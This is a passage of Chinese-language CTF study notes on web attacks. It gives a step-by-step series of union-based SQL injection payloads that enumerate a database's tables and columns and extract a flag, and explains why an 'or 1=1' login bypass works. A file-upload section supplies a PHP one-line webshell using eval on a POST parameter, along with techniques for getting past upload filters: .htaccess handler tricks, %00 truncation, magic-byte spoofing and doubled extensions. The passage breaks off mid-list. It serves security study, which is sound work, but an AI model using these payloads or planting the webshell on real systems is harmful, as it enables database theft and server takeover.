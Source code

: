```bash
' or 1=1 union select 1,(select table_name from information_schema.tables where table_schema = 'web2' limit 0,1),3 limit 1,2;#-- 

得到表名：flag 第二个表:

' or 1=1 union select 1,(select table_name from information_schema.tables where table_schema = 'web2' limit 1,2),3 limit 1,2;#-- 

得到表名：user
4.查flag表列的数量

' or 1=1 union select 1,(select count(*) from information_schema.columns where table_name = 'flag' limit 0,1),3 limit 1,2;#-- 

只有1列
5.查flag表列的名字

' or 1=1 union select 1,(select column_name from information_schema.columns where table_name = 'flag' limit 0,1),3 limit 1,2;#-- 

列名为flag
6.查flag表记录的数量

' or 1=1 union select 1,(select count(*) from flag),3 limit 1,2;#-- 

只有一条记录
7.查flag表记录值

' or 1=1 union select 1,(select flag from flag limit 0,1),3 limit 1,2;#-- 

得到flag
```

为什么`username=xxx'or'1=1&password=xxx'or'1=1`可以达到SQL注入，从而直接输出表内容的目的。

假设我们的表名叫`t_user`，`username`为用户名字段，`password`为密码字段，只有当用户名和密码字段都正确的时候才能输出该数据的内容

`SELECT * FROM t_user WHERE username = 'xxx' AND password = "xxxx"`
但是我们通过在xxx后面拼接一个'号来闭合`username`的值，然后通过`or 1 = 1`使where的条件恒等于true，上面的SQL也就变成了

`SELECT * FROM t_user WHERE username='xxx'or 1 = 1 AND password='xxx'or 1 = 1`
从而可以查出所有的数据。

## 文件上传

>工具：蚁剑

- 一句话木马 `<?php eval(@$_POST['a']); ?>`

上传文件绕过限制：

>- 前端验证: 关闭前端js 或许改后缀名bp重发
>- .htaccess: 传入.htaccess文件内容为`AddType application/x-httpd-php x`or`SetHandler application/x-httpd-php`
>#x为格式 如.jpg .png 作用是用php格式打开这些文件，然后把一句话木马以对应后缀上传即可。(后者为把所有文件当成php处理)
>- 00截断:用户输入的url参数包含%00经过浏览器自动转码后截断后面字符.
> #需要注意的是 将`POST /?road=/var/www/html/upload/ HTTP/1.1`改为`POST /?road=/var/www/html/upload/shell.php%00 HTTP/1.1`。而不是更改 `filename="shell.png"`为`filename="shell.php%00png`
>- :对于某些限制png jpg等格式上传的，会对其文件头进行检测。如png 只需在一句话木马二进制文件前加上`89504E47` 再用bp重发，蚁剑连接。
>- 双写后缀:可能在出现`php php5 ajax`等后缀置为空白，构造`pphphp`后缀，则会置为php后缀
>- MIME绕过:如下所示
